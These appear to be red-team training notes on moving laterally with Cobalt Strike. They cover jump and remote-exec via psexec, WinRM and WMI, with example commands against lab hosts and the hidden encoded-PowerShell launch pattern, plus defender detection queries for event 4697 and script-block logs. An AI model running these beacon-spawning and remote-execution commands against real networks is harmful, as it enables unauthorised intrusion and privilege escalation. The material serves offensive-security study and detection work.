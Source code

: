 # Lateral Movement

Moving between hosts in a domain helps access sensitive information and obtain new credentials. Using Aggressor, custom methods can be used for **jump** and **remote-exec**. Each of these strategies are compatible with User Impersonation techniques (e.g. use pth to impersonate a user and then jump to move laterally). Some of Seatbelt's commands can also be run remotely (e.g. ```execute-assembly Seatbelt.exe OSInfo -ComputerName=web```).

### jump

```jump [method] [target] [listener]``` spawns a beacon payload on the remote target (and connect to it if using a P2P listener).

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM

### remote-exec

```remote-exec [method] [target] [command]``` executes the command on the target (not exclusive to lateral movement). Needs more manual work to manage the payload, but does offer a wider degree of control. 

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI

## Windows Remote Management

The **winrm / winrm64** methods return a high priv beacon running as the user interacting with the remote machine. SMB Beacon traffic blends in very well with expected traffic on Windows networks.

```jump winrm64 web.dev.cyberbotic.io smb``` - creates a Beacon that runs inside wsmprovhost.exe (the Host process for WinRM plug-ins), used whenever WinRM is used, legitimate or not. 

Admins can search for process start events, but get a lot of false positives. Best way to catch is to search PS script block logs for known payload artefacts, e.g. ```event.category: process and powershell.file.script_block_text: "$var_runme.Invoke([IntPtr]::Zero)"```

## PsExec

**psexec / psexec64** upload a service binary to the target, then create and starting a service to execute that binary. Beacons run as SYSTEM. 

```jump psexec64 web.dev.cyberbotic.io smb``` 

Catch by looking for 4697 service created events (which are rare, unless a service comes with other software). CS uses a random 7-char alphanumeric string for service name and binary filename. When setting the binPath for the service, it uses a UNC path to the ADMIN$ share: ```event.code: 4697 and winlog.event_data.ServiceFileName: \\\\*\\ADMIN$\\*.exe```

**psexec_psh** doesn't copy a binary to the target, but runs a PS 32-bit command. The pattern it uses by default is ```%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ....```

```jump psexec_psh web smb```

## Windows Management Instrumentation (WMI)

WMI is part of remote-exec. 
